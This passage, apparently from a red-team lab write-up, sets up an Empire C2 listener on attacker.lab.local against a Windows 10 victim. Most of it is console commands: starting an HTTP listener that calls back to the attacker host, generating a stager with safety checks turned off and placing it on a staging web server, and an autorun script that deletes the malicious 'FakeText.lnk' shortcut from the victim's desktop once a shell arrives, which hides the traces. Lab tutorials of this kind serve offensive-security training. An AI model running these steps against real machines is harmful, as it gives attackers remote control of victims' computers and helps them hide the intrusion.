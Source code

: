 My testing lab consists of 2 machines:

|      Hostname      |         Description        |
|:------------------:|:--------------------------:|
| attacker.lab.local | Empire C2 (port 443), staging server (port 80) |
|  victim.lab.local  | Windows 10 Pro 20H2 victim |

For a C2 of choice I chose an <a href="https://github.com/BC-SECURITY/Empire" target="_blank">Empire</a> fork maintained by <a href="https://www.bc-security.org/" target="_blank">BC-Security</a>. That said, reproducing similar steps should be trivial on any other framework. Don't be afraid to experiment!

We start out by setting up an HTTP listener:
```console
(Empire) > uselistener http
(Empire: listeners/http) > set Name demo
(Empire: listeners/http) > set StagerURI /download/demo
(Empire: listeners/http) > set Host http://attacker.lab.local
(Empire: listeners/http) > set Port 443
(Empire: listeners/http) > execute
[*] Starting listener 'demo'
[+] Listener successfully started!
```

In the next step we generate an ordinary stager:
```
(Empire: listeners/http) > back
(Empire) > usestager multi/launcher
(Empire: stager/multi/launcher) > set Listener demo
(Empire: stager/multi/launcher) > set Base64 false
(Empire: stager/multi/launcher) > set SafeChecks false
(Empire: stager/multi/launcher) > set OutFile /root/demo/www/stager
(Empire: stager/multi/launcher) > execute

[*] Stager output written out to: /root/demo/www/stager
```

Afterwards, we setup *Empire* to autorun a task which will delete the malicious shortcut from user's desktop once a shell is received:
```
(Empire: stager/multi/launcher) > back
(Empire) > agents
(Empire: agents) > autorun /root/demo/autorun.rc powershell
```

The contents of `autorun.rc` are shown below:
```
usemodule management/invoke_script
set ScriptPath /root/demo/autorunscript.txt
set ScriptCmd " "
execute
```

The contents of `autorunscript.txt` are shown below:
```
Remove-Item -Force "$([Environment]::GetFolderPath('Desktop'))\FakeText.lnk"
```

